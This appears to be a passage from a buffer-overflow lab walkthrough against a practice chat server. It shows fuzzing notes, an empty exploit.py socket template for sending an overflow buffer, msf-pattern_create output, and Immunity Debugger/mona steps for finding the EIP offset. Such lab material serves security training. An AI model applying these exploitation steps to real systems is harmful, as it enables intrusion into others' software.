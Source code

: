 Note I ran this on the windows 7 VM

The fuzzer will send increasingly long strings comprised of A's. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent.

Crash Replication & Controlling EIP
===================================

Create another file on your Kali box called exploit.py with the following contents:

    import socket
    
    ip = "10.10.70.232"
       port = 31337

    prefix = ""
    offset = 0
    overflow = "A" * offset
    retn = ""
    padding = ""
    payload = ""
    postfix = ""

    buffer = prefix + overflow + retn + padding + payload + postfix
    byte_message = bytes(buffer, "utf-8")

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    try:
        s.connect((ip, port))
        print("Sending evil buffer...")
        s.send(byte_message + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")

Using the buffer length which caused the crash, generate a unique buffer so we can determine the offset in the pattern which overwrites the EIP register, and the offset in the pattern to which other registers point. Create a pattern that is 400 bytes larger than the crash buffer, so that we can determine whether our shellcode can fit immediately. If the larger buffer doesn't crash the application, use a pattern equal to the crash buffer length and slowly add more to the buffer to find space.

Fuzzing crashed at 150 bytes

    msf-pattern_create -l 450
      
    a0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9

On Windows, in Immunity Debugger, re-open the chatserver.exe again using the same method as before, and click the red play icon(twice) to get it running. You will have to do this prior to each time we run the exploit.py (which we will run multiple times with incremental modifications).

While the unique buffer is on the stack, use mona's findmsp command, with the distance argument set to the pattern length.
